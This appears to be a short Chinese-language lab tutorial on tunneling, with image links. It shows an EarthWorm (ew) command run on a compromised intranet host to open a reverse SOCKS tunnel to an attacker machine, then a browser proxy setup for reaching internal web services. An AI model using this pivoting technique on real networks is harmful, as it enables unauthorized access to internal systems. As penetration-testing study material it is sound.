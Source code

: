 ![image-20221029165447476](隧道应用/image-20221029165447476.png)	



在内网主机执行如下命令, 意思是将本机的所有流量转发至192.168.52.143的6666端口

```
ew_for_Win.exe -s rsscocks -d 192.168.52.143 -e 6666
```

![image-20221029165524419](隧道应用/image-20221029165524419.png)	



在攻击机设置浏览器的socks5代理为`192.168.47.149:1080`, 随后可直接访问内网主机的web服务

<img src="隧道应用/image-20221029165609560.png" alt="image-20221029165609560" style="zoom:67%;" />	
